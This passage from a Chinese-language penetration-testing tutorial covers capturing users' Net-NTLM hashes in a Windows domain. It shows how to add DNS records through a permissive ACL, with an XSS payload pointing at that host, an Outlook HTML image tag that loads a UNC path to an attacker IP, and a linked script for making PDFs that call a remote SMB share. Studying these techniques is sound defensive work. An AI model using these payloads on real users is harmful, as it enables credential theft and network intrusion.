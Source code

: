 

第二点该站点的域名位于企业内部网也是行的，那如果我们可以修改控制域内的DNS是不是就可以动点手脚了。

在查看DNS的ACL的时候，我发现了一条规则

![image-20191121145446352](https://p3.ssl.qhimg.com/t0156594bf19f92141b.png)

认证用户都可以在DNS里面创建子对象，也就意味着如果我们是域内认证 用户的话，那我们就可以在域内添加域名。我们使用在kerberos篇里面提到过的Powermad里面的Invoke-DNSUpdate添加一条DNS记录

![image-20191121134813065](https://p1.ssl.qhimg.com/t010acabe37759199fa.png)

然后将我们的payload 换成

```html
<script  src="//xss\xss"></script>
```

由于此时的域名位于企业内部网，所以当用户触发xss的时候会以当前用户去认证，我们也就能拿到用户的net-ntlm  hash。

![image-20191121151332180](https://p3.ssl.qhimg.com/t01fdbc50b54c937fa6.png)

## 0x04 outlook

发送邮件是支持html的，而且outlook里面的图片加载路径又可以是UNC。于是我们构造payload

```html
<img src="\\172.16.100.1\outlook">
```

![image-20191122110302911](https://p4.ssl.qhimg.com/t017426b6c5935ad70f.png)

当收件人打开outlook查看邮件的时候

![image-20191122101323891](https://p2.ssl.qhimg.com/t01d0355f58c5bfc88e.png)

我们就收到net-ntlm  hash了

![image-20191122101443264](https://p2.ssl.qhimg.com/t0149fd2b4bead9a8cb.png)

## 0x05 PDF

PDF规范允许为GoTobe和GoToR条目加载远程内容。PDF文件可以添加一项功能，请求远程SMB服务器的文件。我们直接使用三好学生的脚本[https://github.com/3gstudent/Worse-PDF](https://github.com/3gstudent/Worse-PDF)

![image-20191121175034419](https://p0.ssl.qhimg.com/t014e210fc585268122.png)

我们就收到net-ntlm  hash

![image-20191121175116135](https://p3.ssl.qhimg.com/t013049dfc7f0793e76.png)

用户使用PDF阅读器打开，如果使用IE或是Chrome打开PDF文件，并不会执行。

在实际测试中使用Adobe

![image-20191121175715381](https://p5.ssl.qhimg.com/t017860f464c5a4b9c9.png)
